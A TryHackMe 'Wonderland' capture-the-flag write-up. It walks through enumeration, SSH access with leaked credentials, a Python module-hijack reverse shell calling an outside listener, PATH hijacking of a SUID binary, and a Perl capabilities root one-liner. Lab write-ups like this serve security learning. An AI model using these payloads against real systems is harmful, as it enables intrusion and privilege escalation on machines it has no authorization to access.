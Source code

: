 ```yaml
---
title: Wonderland
date: 2022-07-23 12:00:00 -0500
author: L15t3Nr
categories: [TryHackMe, WriteUp]
tag: [TryHackMe, WriteUp, Wonderland]
img_path: /assets/img/Wonderland/
---
```


Wonderland can be found [here](https://tryhackme.com/room/wonderland)

![Wonderland](/assets/img/Wonderland/Wonderland.jpeg)

# Enumeration
## Nmap
The results of nmap
```
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDe20sKMgKSMTnyRTmZhXPxn+xLggGUemXZLJDkaGAkZSMgwM3taNTc8OaEku7BvbOkqoIya4ZI8vLuNdMnESFfB22kMWfkoB0zKCSWzaiOjvdMBw559UkLCZ3bgwDY2RudNYq5YEwtqQMFgeRCC1/rO4h4Hl0YjLJufYOoIbK0EPaClcDPYjp+E1xpbn3kqKMhyWDvfZ2ltU1Et2MkhmtJ6TH2HA+eFdyMEQ5SqX6aASSXM7OoUHwJJmptyr2aNeUXiytv7uwWHkIqk3vVrZBXsyjW4ebxC3v0/Oqd73UWd5epuNbYbBNls06YZDVI8wyZ0eYGKwjtogg5+h82rnWN
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHH2gIouNdIhId0iND9UFQByJZcff2CXQ5Esgx1L96L50cYaArAW3A3YP3VDg4tePrpavcPJC2IDonroSEeGj6M=
|   256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAsWAdr9g04J7Q8aeiWYg03WjPqGVS6aNf/LF+/hMyKh
80/tcp open  http    syn-ack Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Manual Inspection 
The home page contains only an image

![Home](/assets/img/Wonderland/Home.png)

## Fuzzing for Directories
Using Wfuzz, I enumerate directories
```
wfuzz -c -z file,/opt/SecLists/Discovery/Web-Content/raft-large-directories.txt --follow --hc 404 http://10.10.241.146/FUZZ/
```

One of the first results comes back as the '/r/' directory.

![r](/assets/img/Wonderland/r.png)

I had a feeling this was going to spell out the word 'rabbit', so I checked. 

![rabbitPage](/assets/img/Wonderland/rabbitPage.png)

There is a page here and checking the source reveals something interesting. 

There are credentials hidden in the page source. 

![sourceCredentials](/assets/img/Wonderland/sourceCredentials.png)

# Lateral Movement
### Alice

The credentials i found grant SSH access as the user 'alice'.

![SSHAlice](/assets/img/Wonderland/SSHAlice.png)

Digging into the users permissions reveals the ability to execute a python script as the user 'rabbit'

`sudo -l`
![sudo-l](/assets/img/Wonderland/sudo-l.png)


### Rabbit
The python script uses the 'random' module and this can exploited by abusing the way python looks up library modules. The first location python checks is the current directory. The random module is located at `/usr/lib/python3.6/random.py`. By placing a malicious file name 'random.py' in the current directory, python will find and use my module before it reaches the `	/usr/lib/python3.6/random.py` location. 

The payload I will use: 
```
import socket,os,pty  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
s.connect(("10.2.7.45",4242))  
os.dup2(s.fileno(),0)  
os.dup2(s.fileno(),1)  
os.dup2(s.fileno(),2)  
pty.spawn("/bin/sh")
```

and this will be stored in a file called 'random.py' in the directory containing the 'walrus_and_the_carpenter.py' script. 

Setting up a netcat listener on 4242 and then executing the script as the user rabbit will provide a reverse shell as the next user. 

`sudo -u rabbit python3.6 ~/walrus_and_the_carpenter.py`

![randomPY](/assets/img/Wonderland/randomPY.png)

![rabbitShell](/assets/img/Wonderland/rabbitShell.png)

### Hatter

The rabbit user contains a binary called 'teaParty' and their is a SUID set on the binary.

![SUID](/assets/img/Wonderland/SUID2.png)

I downloaded a strings static binary onto the target and inspected the strings in the binary.

![teaParty](/assets/img/Wonderland/teaParty.png)

This revealed that the binary uses the 'date' command without an absolute path. This way I can hijack the command with my own by added a malicious 'date' binary to the tmp directory and including the tmp directory in the path. 

![stringsResults](/assets/img/Wonderland/stringsResults.png)

the malicious date binary will contain a reverse shell payload and then be made executable

![newDate](/assets/img/Wonderland/newDate.png)

The tmp directory is also added to the path

![PATH](/assets/img/Wonderland/PATH.png)

A netcat listener is started on port 2345 and then the binary is executed for a reverse shell as the user Hatter

![TeaPartyExec](/assets/img/Wonderland/TeaPartyExec.png)

![HatterShell](/assets/img/Wonderland/HatterShell.png)

# Privilege Escalation
### Root
User hatter contains a password file in the home directory that I will use to login via SSH

![HatterPassword](/assets/img/Wonderland/HatterPassword.png)

![HatterSSH](/assets/img/Wonderland/HatterSSH.png)

I ran through the [Privilege Escalation Checklist](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md) and found that the hatter user has capabilities set on Perl. 

![GetCap](/assets/img/Wonderland/GetCap.png)

There is a privilege escalation path found on [GTFO bins](https://gtfobins.github.io/gtfobins/perl/)

The payload: 
```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

![root](/assets/img/Wonderland/rootWonderland.png)
